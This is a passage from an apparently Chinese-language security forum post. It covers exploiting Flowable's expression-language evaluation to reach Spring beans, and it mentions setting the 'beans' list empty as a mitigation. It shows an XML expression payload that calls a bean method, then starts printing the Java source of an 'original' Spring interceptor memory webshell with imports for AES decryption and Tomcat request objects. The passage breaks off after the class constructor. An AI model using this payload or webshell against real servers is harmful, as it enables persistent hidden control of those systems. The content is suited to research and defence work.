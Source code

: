 而这种写法就能够调用到MyBeans里面的sayHello方法，而在这种默认情况下，又有哪些beans能够被访问呢,直接跟进代码来到`org.flowable.common.engine.impl.javax.el.CompositeELResolver#getValue`  
此处是查找javaBeans，从这8个resolvers中获取

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-32f67c4fb60841796f0143c85b903d2aaaecea96.png)

重点来看第二个resolvers

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-8eb4f225934b4ab74209dec40aeaccd1fd2d0f83.png)

继续向下跟，会来到`org.springframework.beans.factory.support.AbstractBeanFactory#doGetBean`，然后根据传入的name，寻找是否有匹配的类

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-8791e6d2ee8095d645fb65ea40e0faeb6af31f6a.png)

到这里，就算是能够获取到springboot中的大多数对象了，接下来只需要在这些对象中寻找一个可以利用的点即可，例如先访问一下`org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter#getModelAndViewResolvers`这个方法做个示例

```xml
<timeDuration>
  ${requestMappingHandlerAdapter.getModelAndViewResolvers()}
</timeDuration>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-b8009dba2c84e19da515a7fef5ebe0633b7f68c1.png)

接下来就是需要找到一个可以利用的方法了，可是我太菜了，没有找到好的利用点  
**要完全禁止表达式使用bean，可以将SpringProcessEngineConfiguration的‘beans’参数设为空list。如果不设置‘beans’参数，则上下文中的所有bean都将可以使用。**

注入内存马
-----

那么如何利用该漏洞注入内存马呢  
这里以springboot为例，注入spring拦截器型内存马  
之前已经有了spring拦截器内存马的例子，所以此处只需要实现，并修改一些未知的问题即可  
下面是原版的马子

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.LinkedHashSet;
import java.util.List;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.handler.MappedInterceptor;
import sun.misc.BASE64Decoder;

public class A12345 extends AbstractTranslet implements HandlerInterceptor {
    public A12345() {
    }

```
